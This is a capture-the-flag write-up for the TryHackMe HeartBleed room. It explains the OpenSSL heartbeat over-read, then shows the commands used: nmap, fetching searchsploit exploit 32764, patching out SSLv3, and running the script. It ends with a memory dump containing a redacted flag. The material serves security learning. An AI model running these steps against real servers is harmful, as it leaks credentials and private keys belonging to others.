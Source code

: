 # THM: HeartBleed

| Stat       | Value                                        |
| ---------- | -------------------------------------------- |
| Image      | <img src="/images/write_ups/try_hack_me/heartbleed/heartbleed.png" alt="HeartBleed" width="90"/> |
| Room       | HeartBleed                                   |
| URL        | https://tryhackme.com/room/heartbleed        |
| Difficulty | Easy                                         |

## Concepts/Tools Used

- Python
- [searchsploit](/tools/searchsploit.md)

## Description

SSL issues are still lurking in the wild! Can you exploit this web servers OpenSSL?

## Process

This room has 2 parts. The first is information about the HeartBleed bug and what is causing it. The room provides a high level summary of how the bug can exploit memory on the server. There are a few external links that give more information and explain how this is a massive vulnerablity. The 2nd task wants you to exploit HeartBleed on a server to get the flag.

## Task 1 Background Information

I spent a lot of time reading the material and trying to understand the bug. I had to look up more information and I thought I would just provide some additional insights into what is needed to exploit this vulnerability.

It is obvious that this exploit needs SSL or TLS. Since TLS is the successor of SSL and SSLv3 is totally broken I will just talk about using TLS for an https connection in this room.

In order to perform the heartbeat request (the request that causes the HeartBleed attack), you need to have a connection with the server. Below are the minimum requests and responses for a HeartBleed attack.

| Step | Description | Who sends it |
| ---- | ----------- | ------------ |
| 1. | **ClientHello** handshake connection request | **Attacker -> Server** |
| 2. | **ServerHello** (plus cert, etc.) handshake connection response | **Server -> Attacker** |
| 3. | **(TLS Handshake completes)** - now both sides can send encrypted data |  |
| 4. | **Heartbeat** request with **fake large payload length** | **Attacker -> Server** |
| 5. | **Heartbeat** response leaking memory past intended payload | **Server -> Attacker** |

Steps 4 and 5 are at the heart (no pun intended) of this room.

### How the request and response should work

It turns out that a heartbeat request is very simple. The 2 properties that matter are the content and the length of the content. So I send a heartbeat request with these 2 properties to a server:

Content: 'Hello'
Content-Length: 5

The server is suppose to look at the Content-Length property and create a buffer of that length in memory. Then it copies the text in the Content property into that buffer that it just created. Then it copys that buffer into a response and sends the response back to me so that our TLS connection stays alive.

### How HeartBleed works

This vulnerability exists because it trusted user input. In my example above I said that my Content-Length was 5 bytes. But what if I had the same Content and I said that my Content-Length was 65,535 bytes?

This is where the vulnerability. It doesn't check the length of my Content it just blindly trusts that I am sending the correct Content-Length for my Content.

In this case, the server will allocate a 65,535 byte buffer in memory. Keep in mind that deallocated memory still has the values that were in those addresses when the memory was allocated. Then it will copy over the 5 bytes in my Content property. Then it will read all the bytes from the buffer (all 65,535 of them) and copy them to the response that goes back to me.

So now I have all kinds of things that were in memory when I made my request. It turns out that this can be usernames, passwords, sensitive chat logs and emails, environment variables, secret keys for X.509 certificates, critical business documents and more.

## Task 2 Protecting Data In Transit

I added the ip address of the machine to my host file with the alias of target.thm. So the command was:

```bash
$ echo "10.10.121.123   target.thm" >> /etc/hosts
```

I then ran my usual starting nmap command on this machine:

```bash
$ nmap -p- -Pn -T5 -v target.thm
```

Port 443 is up. I didn't bother with the other ports. I knew I needed to exploit the https connection on the box.

I used searchsploit to see if it had a script ready to go. I ran the following:

```bash
$ searchsploit heartbleed
```

It had a few scripts, they were a bit out of date. I expected it since HeartBleed is now a decade old at the time of this writing.

I copied over the first one that was provided by searchsploit to my current directory witht the following command:

```bash
$ searchsploit 32764 -m
```

The `-m` option moves the script to my current directory. 32764 is the exploit id in searchsploit.

I had to comment out 1 line to get this to work. Line 32 is the issue, I changed it from this:

`version.append(['SSL 3.0','03 00'])`

To this:

`#version.append(['SSL 3.0','03 00'])`

Again, SSLv3 is broken and so most servers do not support it. Commenting it out allows the script to try the 3 TLS methods.

I now run the script with python2 (the print calls don't have brackets and that only works with python2). Here is how I run it:

```bash
$ python 32764.py target.thm -p 443 > output.txt
```

Looking through the output.txt file, I see the flag on the right hand side as I scroll down. Here is the output with the key redacted:

```bash
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 6E 67 74 68  ....#.......ngth
  00e0: 3A 20 37 35 0D 0A 43 6F 6E 74 65 6E 74 2D 54 79  : 75..Content-Ty
  00f0: 70 65 3A 20 61 70 70 6C 69 63 61 74 69 6F 6E 2F  pe: application/
  0100: 78 2D 77 77 77 2D 66 6F 72 6D 2D 75 72 6C 65 6E  x-www-form-urlen
  0110: 63 6F 64 65 64 0D 0A 0D 0A 75 73 65 72 5F 6E 61  coded....user_na
  0120: 6D 65 3D 68 61 63 6B 65 72 31 30 31 26 75 73 65  me=hacker101&use
  0130: 72 5F 65 6D 61 69 6C 3D 68 61 78 6F 72 40 68 61  r_email=haxor@ha
  0140: 78 6F 72 2E 63 6F 6D 26 75 73 65 72 5F 6D 65 73  xor.com&user_mes
  0150: 73 61 67 65 3D 54 48 4D 7B 00 00 00 00 00 00 00  sage=THM{#######
  0160: 00 00 00 7D AF 7B 00 28 AF 84 87 27 59 A9 CF EB  ###}.{.(...'Y...
  0170: 74 86 D3 07 00 00 00 00 00 00 00 00 00 00 00 00  t...............
  0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0190: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
'''
